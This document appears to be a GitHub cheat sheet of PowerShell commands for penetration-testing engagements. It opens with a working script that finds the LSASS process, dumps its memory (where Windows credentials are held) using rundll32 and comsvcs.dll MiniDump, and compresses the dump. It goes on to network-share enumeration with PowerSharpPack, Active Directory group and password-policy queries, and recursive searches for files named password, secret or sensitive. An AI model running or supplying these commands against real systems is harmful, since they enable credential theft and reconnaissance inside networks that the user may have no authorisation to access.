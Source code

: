# Powershell_stuff
Useful set of Powershell related commands during engagements

	$processes = Get-Process
	$location = Get-Location

	$dumpid = foreach ($process in $processes){if ($process.ProcessName -eq "lsass"){$process.id}}
		Write-Host "Found l s a s s process with ID $dumpid - starting dump with rundll32"
		Write-Host "Dumpfile goes to Get-Location\$env:COMPUTERNAME.log"
			rundll32 C:\Windows\System32\comsvcs.dll, MiniDump $dumpid $location\$env:COMPUTERNAME.log full | Out-Null
		Compress-Archive -Path $location\$env:COMPUTERNAME.log -DestinationPath $location\$env:COMPUTERNAME.zip -CompressionLevel NoCompression

#ENABLE TLS1.2 if you receive a message Regarding an ISSUE with TLS
[Net.ServicePointManager]::SecurityProtocol = [Net.ServicePointManager]::SecurityProtocol -bor [Net.SecurityProtocolType]::Tls12

#Powershell Specific Tooling

# PowerSharpPack
PowerSharpPack -SharpShares -Command "--shares"

#Domain Enumeration

#Group Membership  
([ADSISEARCHER]"samaccountname=$('ENTERUSERNAME')").Findone().Properties.memberof -replace '^CN=([^,]+).+$','$1' | sort-object


#Aliases

dir = Get-ChildItem


#Current Domain Password Policy
$domain = [adsi](“WinNT://DOMAIN.local”)
$domain.Properties.Keys | Foreach {
  @{$_ = [string]$domain.Properties.Item($_) }
}



#Search for any file with the extension (.doc, .xls, .pdf) export output to 'files.csv'

get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*.doc*’,’*.xls*’,’*.pdf’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv


#Or if you wanted to do several wildcard searches for sensitive files (replace the terms as necessary):

get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*password*’,’*sensitive*’,’*secret*’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv

